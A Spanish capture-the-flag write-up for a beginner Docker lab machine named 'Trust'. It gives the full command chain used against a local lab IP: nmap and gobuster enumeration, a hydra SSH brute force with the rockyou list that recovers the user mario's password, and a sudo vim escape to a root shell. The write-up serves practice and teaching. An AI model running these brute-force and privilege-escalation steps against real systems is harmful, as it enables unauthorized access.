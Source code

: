 ```yaml
---
Maquina: Trust
SO: Linux
Explotación: Análisis de imágenes
Escala_privs: Permisos sudo
Dificultad: Muy fácil
tags:
  - maquina
  - fuerza_bruta
  - linux
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sV -Pn 172.17.0.2
```

![[Pasted image 20241022111335.png]]

2. **Investigación del portal web**:

Como hemos observado hay un portal web activo en el puerto 80, así que vamos a indagar en el a ver que encontramos.

Tras pasar la herramienta gobuster tenemos el siguiente resultado:

```bash 
gobuster dir -u http://172.18.0.2/ -w /home/alejandro/wordlists/SecLists/Discovery/Web-Content/common.txt
```

![[Pasted image 20241022111505.png]]

Por lo que vemos nada fuera de lo normal y la página principal es la genérica de instalación de Apache

![[Pasted image 20241022111544.png]]

Tras analizar los diferentes directorios y realizar una búsqueda por extensión de archivos si que logramos encontrar algo interesante:

```bash 
gobuster dir -u http://172.18.0.2/ -w /home/alejandro/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x .php
```

![[Pasted image 20241022115935.png]]

![[Pasted image 20241022120005.png]]

Ya tenemos un nombre de usuario para hacer fuerza bruta al SSH.

## Explotación:

3. **Acceso al SSH por Fuerza Bruta**:

Con el usuario Mario, vamos a intentar hacer un ataque de hydra para poder acceder al SSH

```bash 
hydra -l mario -P /home/alejandro/wordlists/rockyou.txt -t 5 -vvv ssh://172.18.0.2
```

![[Pasted image 20241022120134.png]]

Listo, ya sabemos la contraseña del usuario mario -> chocolate

![[Pasted image 20241022120226.png]]

Una vez dentro ya podemos pasar a la escala de privilegios.

4. **Escala de privilegios**:

Para ver los permisos que tenemos con el comando sudo podemos ejecutar:

```bash 
sudo -l
```

![[Pasted image 20241022120323.png]]

Como podemos apreciar se puede ejecutar /usr/bin/vim como sudo.... Así que vamos a ir a la web de gtfobins para ver que comando podemos ejecutar link -> https://gtfobins.github.io/.

```bash 
sudo vim -c ':!/bin/sh'
```

![[Pasted image 20241022120426.png]]

Listo ya somos root. Si quieremos mejorar la shell podemos ejecutar:

```bash
SHELL=/bin/bash script -q /dev/null
```

![[Pasted image 20241022120528.png]]
